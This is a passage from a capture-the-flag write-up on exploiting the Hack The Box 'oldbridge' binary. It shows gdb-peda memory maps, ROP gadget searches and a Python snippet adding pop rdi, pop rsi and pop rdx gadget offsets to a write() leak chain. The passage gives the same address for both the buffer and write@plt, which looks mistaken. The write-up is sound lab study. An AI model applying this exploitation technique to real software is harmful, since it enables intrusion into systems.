 Now we know all of our arguments for `write`:
1. File descriptor = 0x4
2. Address of buffer: `libc_base + 0x202020`
3. Length = 0x8 (We want a QWORD, so 8 bytes)
4. The address of the function we want to call: `write@plt` is `libc_base + 0x202020` as well and we can call it

The last thing we need is to find a way to load these argument from the stack to the registers. Because as we remember, the arguments in this binary as **passed via registers**. So we have to find some gadgets in the .text section of the binary that would:
1. pop rdi (first argument)
2. pop rsi (second argument)
3. pop rdx (third argument)

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555556000 r-xp	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x0000555555755000 0x0000555555756000 r--p	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x0000555555756000 0x0000555555757000 rw-p	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x00007ffff79e4000 0x00007ffff7bcb000 r-xp	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 ---p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 r--p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 rw-p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 rw-p	mapped
0x00007ffff7dd5000 0x00007ffff7dfc000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ff1000 0x00007ffff7ff3000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ ropsearch "pop rsi" 0x0000555555554000 0x0000555555556000
Searching for ROP gadget: 'pop rsi' in range: 0x555555554000 - 0x555555556000
0x0000555555554f71 : (b'5e415fc3')	pop rsi; pop r15; ret
gdb-peda$ ropsearch "pop rdi" 0x0000555555554000 0x0000555555556000
Searching for ROP gadget: 'pop rdi' in range: 0x555555554000 - 0x555555556000
0x0000555555554f73 : (b'5fc3')	pop rdi; ret
gdb-peda$ ropsearch "pop rdx" 0x0000555555554000 0x0000555555556000
Searching for ROP gadget: 'pop rdx' in range: 0x555555554000 - 0x555555556000
0x0000555555554b53 : (b'5ac3')	pop rdx; ret
```
Note: if `ropsearch` doesn't work, you need to `apt-get install nasm`.

We'll add these gadgets to our script:
```python
gadget_pop_rsi_pop_r15_ret = text_section_base + 0xf71
gadget_pop_rdi_ret         = text_section_base + 0xf73
gadget_pop_rdx_ret         = text_section_base + 0xb53
```
Note: when we'll use `pop_rsi`, we have to remember that there's another `pop` taking place. 
